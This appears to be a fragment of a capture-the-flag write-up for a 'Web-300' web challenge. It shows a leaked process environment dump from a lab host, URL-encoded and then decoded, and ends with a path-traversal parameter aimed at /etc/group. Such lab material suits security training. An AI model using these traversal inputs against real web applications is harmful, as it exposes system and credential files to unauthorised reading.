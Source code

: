 ```
/LESSOPEN=|%20/usr/bin/lesspipe%20%s%EF%BF%BDPYTHONIOENCODING=UTF-8%EF%BF%BDTMUX=/tmp/tmux-1000/default,2791,1%EF%BF%BDMAIL=/var/mail/ctfuser%EF%BF%BDSSH_CLIENT=192.168.0.104%2038572%2022%EF%BF%BDUSER=ctfuser%EF%BF%BDSHLVL=4%EF%BF%BDHOME=/home/ctfuser%EF%BF%BDSSH_TTY=/dev/pts/4%EF%BF%BDLOGNAME=ctfuser%EF%BF%BDEVENT_NOEPOLL=1%EF%BF%BD_=/usr/bin/python%EF%BF%BDXDG_SESSION_ID=9%EF%BF%BDTERM=screen-256color%EF%BF%BDPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games%EF%BF%BDXDG_RUNTIME_DIR=/run/user/1000%EF%BF%BDLANG=en_US.UTF-8%EF%BF%BDLS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:%EF%BF%BDSHELL=/bin/bash%EF%BF%BDLESSCLOSE=/usr/bin/lesspipe%20%s%20%s%EF%BF%BDPWD=/home/ctfuser/Web-300/app%EF%BF%BDSSH_CONNECTION=192.168.0.104%2057282%20192.168.30.121%2022%EF%BF%BDTMUX_PANE=%4%EF%BF%BD
```

urldecode
```
/LESSOPEN=| /usr/bin/lesspipe %sï¿½PYTHONIOENCODING=UTF-8ï¿½TMUX=/tmp/tmux-1000/default,2791,1ï¿½MAIL=/var/mail/ctfuserï¿½SSH_CLIENT=192.168.0.104 38572 22ï¿½USER=ctfuserï¿½SHLVL=4ï¿½HOME=/home/ctfuserï¿½SSH_TTY=/dev/pts/4ï¿½LOGNAME=ctfuserï¿½EVENT_NOEPOLL=1ï¿½_=/usr/bin/pythonï¿½XDG_SESSION_ID=9ï¿½TERM=screen-256colorï¿½PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/gamesï¿½XDG_RUNTIME_DIR=/run/user/1000ï¿½LANG=en_US.UTF-8ï¿½LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:ï¿½SHELL=/bin/bashï¿½LESSCLOSE=/usr/bin/lesspipe %s %sï¿½PWD=/home/ctfuser/Web-300/appï¿½SSH_CONNECTION=192.168.0.104 57282 192.168.30.121 22ï¿½TMUX_PANE=%4ï¿½
```

bork=../../../../../etc/group
